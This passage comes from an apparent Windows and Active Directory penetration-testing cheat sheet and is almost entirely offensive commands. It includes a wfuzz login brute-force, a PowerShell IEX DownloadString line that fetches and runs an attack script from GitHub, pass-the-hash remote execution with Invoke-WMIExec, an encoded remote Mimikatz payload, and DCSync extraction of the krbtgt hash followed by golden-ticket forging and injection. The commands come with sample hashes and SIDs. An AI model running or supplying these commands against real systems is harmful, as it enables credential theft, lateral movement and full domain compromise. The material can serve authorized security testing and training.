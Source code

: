 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

![applocker2](https://user-images.githubusercontent.com/7115563/34455569-e0136c6a-ed81-11e7-9b0e-127ae9d395e0.png)
  
  ```C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise```
  
  
 <a name="pth"></a> <h3> Pass The Hash </h3>
  
  
  <b> Invoke a command Remotely </b>
  
  <pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1')
 
 Invoke-WMIExec -Target SVHOST2  -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell whoami | out-file \\SVHOST2\C$\windows\bitch.txt"
</pre>

  <b> Invoke Mimikatz Remotely </b>
  
  <pre>Invoke-WMIExec -Target SVHOST2  -Username Administrator
-Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell -Enc SQBFA...AoA"</pre>

![image](https://user-images.githubusercontent.com/7115563/34455757-1f6aed1c-ed86-11e7-9415-595fa5e8d6e7.png)
  
  <b> Pass The Hash with Mimikatz </b>
  
  <pre> Invoke-Mimikatz -Command '"sekurlsa::pth /user:adm_maint /ntlm:cbe55f143fcb6d4687583af520123b89 /domain:lazuli"'</pre>
  
  
  <a name="krb"></a><h3> Kerberos </h3>
  
  
  <b> Generate Golden Ticket (Domain Admin Required) </b>
  
  <pre>Invoke-Mimikatz -Command '"lsadump::dcsync /domain:LAZULI.CORP /user:krbtgt"'</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455725-7230ee30-ed85-11e7-9333-16372355ce60.png)
  
  ![image](https://user-images.githubusercontent.com/7115563/34455734-89934d5c-ed85-11e7-960e-9659e099c9df.png)
  
  <pre>Invoke-Mimikatz  -Command '"kerberos::golden /user:adon /domain:LAZULI.CORP /krbtgt:ca1c2aeda9160094be9971bdc21c50aa /sid:S-1-5-21-1238634245-2147606590-2801756923 /id:500 /ticket:admin.kirbi /ptt"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455745-9edd0360-ed85-11e7-84f0-6d62e621613b.png)
  
  <pre>Invoke-Mimikatz  -Command '"kerberos::ptt admin.kirbi"'</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455747-b285372a-ed85-11e7-9374-c481108db77e.png)
  
  ![image](https://user-images.githubusercontent.com/7115563/34455748-bb0512c6-ed85-11e7-8d40-b6516cf8b0f3.png)
  
 <a name="miscwin"></a><h3> Miscellaneous </h3>
  
```